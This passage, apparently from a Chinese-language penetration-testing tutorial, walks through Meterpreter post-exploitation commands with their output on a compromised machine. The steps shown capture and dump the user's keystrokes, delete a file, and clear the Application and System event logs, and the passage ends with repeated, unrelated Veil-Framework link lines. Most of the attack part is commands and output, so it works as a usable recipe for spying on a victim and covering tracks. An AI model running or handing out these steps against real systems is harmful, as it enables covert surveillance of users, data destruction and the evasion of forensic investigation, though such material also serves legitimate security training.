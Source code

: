 从输出的信息中可以看到键盘输入嗅探已启动。

（3）捕获漏洞系统用户的键盘输入。执行命令如下所示：

```
meterpreter > keyscan_dump
Dumping captured keystrokes…
<Return> www.baidu.com <Return> aaaa <Return> <Back> <Back> <Back> <Back> <Back> 
```

以上输出的信息表示在漏洞系统中用户输入了 www.baidu.com，aaaa 及回车键、退出键。

（4）停止捕获漏洞系统用户的键盘输入。执行命令如下所示：

```
meterpreter > keyscan_stop
Stopping the keystroke sniffer… 
```

从输出的信息中可以看到键盘输入嗅探已停止。

（5）删除漏洞系统上的一个文件。执行命令如下所示：

```
meterpreter > del exploited.docx 
```

（6）清除漏洞系统上的事件日志。执行命令如下所示：

```
meterpreter > clearev
[*] Wiping 57 records from Application…
[*] Wiping 107 records from System…
[*] Wiping 0 records from Security… 
```

（7）查看正在运行的进程列表。执行命令如下所示：

![172-01](img/00286.jpg)


 [Web]: https://www.veil-framework.com | [Twitter]: @VeilFramework
 [Web]: https://www.veil-framework.com/ | [Twitter]: @VeilFramework
 [Web]: https://www.veil-framework.com/ | [Twitter]: @VeilFramework
 [Web]: https://www.veil-framework.com/ | [Twitter]: @VeilFramework
 [Web]: https://www.veil-framework.com/ | [Twitter]: @VeilFramework
 [Web]: https://www.veil-framework.com/ | [Twitter]: @VeilFramework
 [Web]: https://www.veil-framework.com/ | [Twitter]: @VeilFramework